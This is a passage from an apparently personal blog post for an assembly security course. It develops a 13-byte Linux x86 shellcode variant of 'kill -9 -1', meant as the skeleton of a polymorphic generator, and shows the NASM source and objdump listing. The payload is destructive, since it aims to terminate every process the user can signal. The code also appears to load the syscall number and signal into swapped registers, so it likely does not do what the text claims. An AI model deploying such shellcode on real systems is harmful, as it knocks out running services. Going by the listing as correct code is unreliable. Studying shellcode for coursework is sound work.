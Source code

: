 This first kill\_em\_all variant is 18 bytes long, so it doesn't fit my
assignment rules and it can't be a feasible solution.

I'll change then the byte assignment, not using a define byte approach but a
direct load, instead:

{%highlight asm%}
; Filename: 	kill_second_variant.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is my second variant for kill -9 -1 shellcode. This
;		shellcode is 13 byte long and I will use it as a skeleton for
;		polymorphic generator. 

section .text

global _start

_start:
	xor ebx, ebx
	xor eax, eax
	xor ecx, ecx

	mov cl, 0x25
	mov al, 0x9

	dec ebx
	int 0x80

{%endhighlight%}

This shellcode, when compiled into binary, is only 13 bytes long that is inside
our engagement rules.

{% highlight sh%}
 % objdump -d kill_second_variant

kill_second_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 db                	xor    %ebx,%ebx
 8048082:	31 c0                	xor    %eax,%eax
 8048084:	31 c9                	xor    %ecx,%ecx
 8048086:	b1 25                	mov    $0x25,%cl
 8048088:	b0 09                	mov    $0x9,%al
 804808a:	4b                   	dec    %ebx
 804808b:	cd 80                	int    $0x80

{% endhighlight %}

Now with those two fixes values loaded into cl and al it's easy to derive other
variations. We can start from this to create some other polymorphic versions,
using some strategies like:
